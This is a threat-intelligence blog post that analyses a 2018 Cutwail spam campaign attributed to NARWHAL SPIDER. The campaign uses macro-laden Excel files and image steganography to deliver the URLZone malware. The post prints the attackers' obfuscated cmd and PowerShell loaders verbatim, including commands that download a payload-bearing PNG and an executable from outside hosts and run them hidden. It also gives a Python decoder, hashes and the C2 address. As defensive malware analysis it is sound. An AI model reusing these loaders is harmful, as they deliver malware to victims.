 # Reference for threat actor for "Narwhal Spider"

**Title**: Cutwail Spam Campaign Uses Steganography to Distribute URLZone

**Source**: https://www.crowdstrike.com/blog/cutwail-spam-campaign-uses-steganography-to-distribute-urlzone/

## Content






 







Cutwail Spam Campaign Uses Steganography to Distribute URLZone






































































 



Cutwail Spam Campaign Uses Steganography to Distribute URLZone

October 25, 2018 Sebastian Eschweiler, Brett Stone-Gross, and Bex Hartley Counter Adversary Operations 




CrowdStrike® CrowdStrike Falcon® Intelligence™ has observed a new Cutwail spam campaign from NARWHAL SPIDER on 24 October 2018. NARWHAL SPIDER is the adversary name designated by Falcon Intelligence for the criminal operator of Cutwail version 2. NARWHAL SPIDER primarily provides spam services with a large customer base that has included malware operators such as WIZARD SPIDER (developer of TrickBot), affiliates of BAMBOO SPIDER (developer of Panda Zeus), and many others including URLZone, Nymaim and Gozi ISFB. The targets and payloads delivered through Cutwail spam campaigns are determined by the customers of NARWHAL SPIDER.
The Japanese-language spam campaign uses a mixture of malicious PowerShell (PS) and steganography — a method of sending data in a concealed format — to distribute the eCrime malware family URLZone (a.k.a. Bebloh). 
The Japanese-language emails contain a malicious, macro-enabled Microsoft Excel attachment named with the pattern DOC2410201810{DIGIT[6]}.xls, and have a SHA256 hash of 54303e5aa05db2becbef0978baa60775858899b17a5d372365ba3c5b1220fd2e. A screenshot of this attachment is provided in Figure 1. The message body of the spam email is either blank or consists of the content provided in Table 1, which also lists the possible subject lines.
Table 1. Cutwail Spam Campaign Details 
 

Figure 1. Screenshot of Malicious, Macro-enabled Microsoft Excel Document

Upon opening the Excel document and enabling macros, the victim machine begins to run through the series of events detailed below.
Stage 1: Deobfuscation Routine
The embedded Visual Basic Application (VBA) code runs cmd.exe as shown below:
cmd.exe /V:ON/C"set lW=o.crm`VPx57^^l(SEX]L8{-Y=GZU:K%0B[9ia2eb*yftp_/T$j1'vdMF^|C\Hwk^&)WAIDn+}h4,sg6;3 R""ON&&for %9 in (15,2,70,82,45,78,78,47,71,24,10,23,32,42,22,7,15,17,13,50,53,50,68,50,64,46,70,50,62,78,76,78,78,78,47,71,19,16,10,23,78,32,42,40,43,37,17,13,50,14,40,73,42,15,4,1,46,50,68,50,15,8,50,68,50,46,50,68,50,1,15,83,2,50,68,50,0,50,68,50,66,65,67,74,50,62,76,78,78,1,13,81,20,49,69,20,30,69,81,78,21,41,50,12,50,72,50,73,35,50,62,78,13,50,35,50,62,78,13,81,20,30,69,20,36,69,20,49,69,81,78,21,41,50,83,37,59,50,72,50,2,42,50,72,50,21,82,38,48,37,50,62,76,11,11,11,61,13,81,20,30,69,20,49,69,81,21,41,78,50,64,52,52,21,46,50,72,50,40,43,37,50,62,78,21,64,73,73,37,4,38,12,40,83,35,4,37,78,81,14,40,73,42,37,4,1,66,3,35,59,34,67,74,81,76,47,20,74,69,23,11,11,11,61,13,50,35,50,62,78,13,81,20,71,69,20,36,69,20,49,69,20,30,69,20,77,69,81,21,41,78,50,1,31,34,50,72,50,34,67,74,50,72,50,59,50,72,50,42,4,35,43,50,72,50,14,40,73,42,37,4,1,66,3,35,50,62,13,13,11,11,11,61,13,50,35,50,62,78,13,81,20,30,69,20,49,69,20,77,69,20,36,69,81,78,21,41,78,50,83,37,42,1,50,72,50,63,37,50,72,50,42,50,72,50,38,56,12,34,37,67,50,62,62,1,13,81,20,49,69,20,30,69,81,78,21,41,50,43,37,67,79,37,35,52,50,72,50,82,50,62,1,65,67,51,0,60,37,13,81,70,42,42,43,73,27,45,45,34,4,35,74,37,73,36,1,34,4,74,38,0,8,1,2,0,4,45,2,35,45,19,19,45,64,36,25,14,12,63,75,14,44,0,1,43,67,74,81,62,62,76,47,20,82,69,23,11,11,11,61,13,50,35,50,62,78,13,81,20,30,69,20,49,69,81,21,41,50,31,40,42,37,50,72,50,32,17,50,62,78,49,19,75,30,76,13,30,1,1,36,62,11,11,11,55,1,13,50,29,50,62,20,41,0,3,37,35,2,70,13,47,20,8,69,78,34,67,13,30,1,1,75,49,33,62,62,20,47,20,43,69,23,47,20,74,69,1,13,81,20,30,69,20,49,69,81,78,21,41,78,50,24,37,42,7,34,50,72,50,8,37,12,50,62,1,65,67,51,0,60,37,13,47,20,8,69,72,47,20,44,69,62,76,47,20,0,69,32,47,20,44,69,39,75,36,30,68,47,20,16,69,17,23,13,78,78,47,71,74,10,27,27,13,81,20,49,69,20,30,69,81,21,41,78,50,12,0,0,3,50,72,50,54,50,62,1,65,67,51,0,60,37,13,13,47,20,43,69,1,81,31,81,21,38,35,67,52,49,9,62,39,49,75,62,21,38,0,3,13,47,20,43,69,1,81,74,81,78,21,38,35,67,52,78,49,9,62,62,69,69,76,11,11,11,61,13,81,20,30,69,20,49,69,81,78,21,41,50,65,50,72,50,15,16,50,62,13,78,13,78,18,14,78,78,51,64,79,65,35,38,18,15,27,71,19,8,10,78,62,1,6,35,12,26,15,27,27,81,35,5,73,2,34,34,81,1,81,74,37,42,5,73,5,46,3,65,67,24,81,13,47,20,82,69,32,30,1,1,49,77,71,49,17,62,62,78,55,2,27,57,59,65,67,52,82,59,73,57,14,40,14,42,37,4,77,36,57,56,12,34,7,1,15,8,15,78,61,61,56,53,52,1,15,8,37,78,78,78,45,2,78,43,0,59,37,3,14,58,15,18,18,78,21,15,8,37,56,26,46,65,82,83,43,82,12,78,31,22,7,35,73,73,78,78,21,83,0,67,34,83,78,21,59,65,67,52,82,59,14,46,22,78,58,65,66,66,15,67,78,21,67,82,43,79,82,54,34,78,78,21,73,42,78,78,21,83,0,12,82,74,82,78,78,78,78,78,1,78,13,78,78,57,81,20,30,69,20,49,69,20,36,69,57,81,78,21,41,78,50,64,52,52,50,72,13,78,57,81,20,30,69,20,49,69,57,81,78,21,41,50,21,50,72,50,46,40,43,50,78,62,72,50,37,50,78,78,62,78,21,64,73,73,37,4,78,13,57,81,20,77,69,20,49,69,20,9,69,20,30,69,20,71,69,20,36,69,57,81,78,21,41,78,13,78,78,57,81,20,36,69,20,49,69,20,30,69,57,81,78,21,41,50,52,50,72,50,1,63,34,67,50,72,50,37,4,50,78,78,62,72,50,40,73,50,72,50,73,50,72,50,14,50,72,13,78,57,81,20,36,69,20,49,69,20,30,69,57,81,21,41,78,50,54,0,3,4,50,72,50,1,50,72,50,0,59,73,50,62,72,50,42,50,62,78,78,78,76,78,78,78,11,11,11,61,78,78,13,78,78,78,47,20,37,5,83,6,5,27,2,82,53,73,5,43,37,2,69,32,71,72,49,9,72,36,9,17,21,48,82,65,83,50,50,62,78,13,78,78,13,78,32,14,22,14,42,37,53,1,63,34,83,66,0,63,73,1,54,0,3,53,14,1,56,18,65,7,38,82,35,79,52,17,27,27,13,57,81,20,30,69,20,49,69,57,81,78,21,41,78,50,24,50,72,13,57,81,20,30,69,20,49,69,57,81,78,21,41,50,37,50,72,50,42,42,15,8,46,50,78,62,62,1,57,81,34,5,83,51,5,0,28,15,57,81,13,78,78,62,78,78,62,78,78,62,78,76,78,78,32,14,40,73,42,37,4,1,63,34,67,52,0,59,73,1,54,0,3,4,73,1,56,12,34,43,38,0,35,3,52,17,27,27,13,57,81,20,30,69,20,49,69,57,81,78,21,41,50,56,12,50,72,50,37,35,3,50,78,62,1,57,81,34,5,83,51,82,5,60,15,57,81,13,78,62,84)do set Rc=!Rc!!lW:~%9,1!&&if %9 geq 84 cmd /C!Rc:~-1334!"
This command decodes and executes a second stage, which is a combination of another Windows batch command with a PS command.
Stage 2: Download Image File and Execute PowerShell Command
Stage 2 is shown in the following code below:
cmd  /CEchO/  $4G7=[tYPE]('M'+'ATh') ;   $48X7= [type]('SystEm.T'+'Ex'+'T'+'.ENc'+'o'+'DIng');  .("{1}{0}" -f'l','sa') ('a') ("{0}{2}{1}" -f'New','ct','-Obje');^^^&("{0}{1}"-f 'Add-T','ype') -AssemblyName "System.Drawing";${g}=^^^&('a') ("{4}{2}{1}{0}{3}"-f '.Bi','ing','w','tmap','System.Dra')((^^^&('a') ("{0}{1}{3}{2}" -f 'Net.','We','t','bClien')).("{1}{0}" -f'penRead','O').Invoke("https://images2.imgbox.com/ca/88/A2ZSlW6S_o.png"));${O}=^^^&('a') ("{0}{1}"-f'Byte','[]') 1860;(0..2)^^^|.('%'){foreach(${x} in(0..619)){${p}=${g}.("{0}{1}" -f 'GetPi','xel').Invoke(${x},${_});${o}[${_}*620+${X}]=(  $4g7::("{1}{0}"-f 'loor','F').Invoke((${p}."B"-band15)*16)-bor(${p}."g" -band 15))}};^^^&("{0}{1}" -f'I','EX')( ( LS vARIabLE:48x7 ).ValUE::"a`scii"."get`s`TrInG"(${O}[0..1341])) |c:\wIndOws\SyStem32\CliP.ExE &&CMd.Exe /c powerSHELL -ExeCUTIONpOl BYPass -NoniN -wIndOwSTY HIDDEn -nOpROFi -st -NolOgO . ( \"{0}{1}{2}\" -f 'Add',( \"{0}{1}\" -f'-','Typ' ),'e' ) -Assem (\"{3}{1}{5}{0}{4}{2}\" -f ( \"{2}{1}{0}\" -f'd','.Win','em' ),'ys','s','S',( \"{2}{1}{0}\"-f 'Form','.','ows'),'t') ; ^^^&  ( ${e`NV`:cOMs`pec}[4,15,25]-jOIN'') ( ( [SYSteM.WiNDoWs.ForMS.CLIPbOaRd]::(\"{0}{1}\" -f 'G',(\"{0}{1}\" -f'e','ttExT' )).\"i`Nv`oKE\"( ) ) ) ; [System.Windows.Forms.Clipboard]::(\"{0}{1}\" -f'Cl','ear' ).\"i`NvO`kE\"( )
The PS command provided above results in the following sequential actions:  

Downloads an image and decodes a third stage (detailed below)
Copies stage 3 to the clipboard
Executes PS command to initiate stage 3

The stage 2 PS command downloads a PNG file from the URL https://images2.imgbox[.]com/ca/88/A2ZSlW6S_o.png.
The downloaded image has the SHA256 hash 73da11127aa1da5538d153ba7f063c74fb90af46da581f098f179e1bb8371904 and is shown below:
 

Figure 2. Screenshot of Downloaded Image File with Steganography to Hide the Payload
Next, the command decodes hidden data using digital steganography from the image. The information is hidden in the blue (B) and green (G) channels of the image. To be more exact, the four least significant bits of the blue and green channels contain another PS script (stage 3). The four bits from the blue channel form the most significant bits of the data, and the four bits from the green channel form the least significant bits to produce the full byte of the output, as shown below:

The following Python code extracts the PowerShell command from the image:

from PIL import Imageimport sys
 
image = Image.open(sys.argv[1])
pixel = image.load()
payload = bytearray()
for y in xrange(3):
for x in range(620):
r, g, b = pixel[x,y]
payload.append( (b&15) * 16 | (g&15) )
print(payload)

The stage 3 PS command is hidden in the first three rows of the image. The following image shows detail of the original image, with the red channel removed for better visibility. It demonstrates the use of steganography, with a lower entropy in the first three rows.
 
Figure 3. Image Showing the Blue and Green Color Channels for the Downloaded Image containing a Hidden PowerShell Command in the First Three Rows 
 
Next, the decoded stage 3 PS command is copied to the clipboard and executed. To that end, another instance of powershell.exe is spawned by stage 2. The new PS command copies the content of the clipboard and executes it. Finally, the clipboard content is cleared.
Stage 3: Further PowerShell Activity 
The PS command in stage 3 is also highly obfuscated; a deobfuscated version is shown below:

$Ds = Get-Culture | Format-List -Property * | Out-String -Stream; if ($Ds -Match "ja") {$urls = "http[:]//pigertime[.]com/mksettting", ""; foreach ($url in $urls) {
Try {
write-Host $url; $fp = "$env:temp\pain.exe"; Write-Host $fp; $wc = New-Object System[.]Net.WebClient; $wc.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT; Windows NT 10.0; us-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0 Safari/534.6"); $wc.DownloadFile($url, $fp); Start-Process $fp; break
}
Catch {
Write-Host $_.Exception.Message
}
}
}

The obfuscated PS command first checks whether the current region settings contain the string ja. This is most likely a superficial regional check for the Japanese region. If this is the case, the victim machine makes an HTTP GET request to the URL http[:]//pigertime[.]com/mksettting with the user agent Mozilla/5.0 (Windows NT; Windows NT 10.0; us-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0 Safari/534.6. The payload is downloaded to %TEMP%\pain.exe and executed. 
The downloaded payload has the SHA256 hash 03fe36e396a2730fa9a51c455d39f2ba8168e5e7b1111102c1e349b6eac93778 and is a variant of the eCrime malware downloader URLZone.
URLZone
The observed variant of URLZone is using a command-and-control (C2) server of https://oaril[.]com/auth/ and the public key provided below: 

-----BEGIN PUBLIC KEY----- MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCmk6zOuYcUd1H6vUyvuxrcozqW mOl5jTa9HDodiKaPtRPmNv2rRPF/4urX476F+SM6kmLcG04lnE3bEAQzO+kJJx8x gmxESN8piJ3aSxnjAqpt3rVjmwXmoULE1wnOFCKt32UmfZ7xNaPeYJyLvgcfGMme MGuPDjhqw5LmxzzSjwIDAQAB -----END PUBLIC KEY-----

Following the successful installation of URLZone, the C2 sends a request to a URL to download and execute a malicious payload. Although Falcon Intelligence has yet to observe the final payload delivered, the previous Japanese-language spam campaigns that delivered URLZone resulted in the download of Gozi ISFB.
It should be noted that CrowdStrike Falcon® is able to leverage the behavioral pattern described in this blog and provides coverage against this threat. In addition, the Falcon machine learning algorithm is able to detect and prevent the URLZone payload from executing.
Cutwail spam levels in the last three months have been significantly lower. The introduction of steganography may suggest that NARWHAL SPIDER has been developing new, innovative methods to evade detection and improve infection rates. Although not commonly used by eCrime actors, steganography has been used for malware delivery in the past, such as the Lurk Downloader and StegoLoader.
Learn more:

To learn more about how to incorporate intelligence on threat actors such as NARWHAL SPIDER into your security strategy, please visit the Falcon threat intelligence product page.
Download the CrowdStrike 2020 Global Threat Report







Tweet





Share





Related Content






5 Tips to Defend Against Access Brokers This Holiday Season








IMPERIAL KITTEN Deploys Novel Malware Families in Middle East-Focused Operations








Automation Advancements in Falcon Intelligence Recon: Disrupt the Adversary and Reduce Risk











 Your Jenkins Belongs to Us Now: Abusing Continuous Integration Systems
Meet CrowdStrike’s Adversary of the Month for October: DUNGEON SPIDER 









 
















Copyright © 2023 CrowdStrike
Privacy
Request Info
Blog
Contact Us
1.888.512.8906














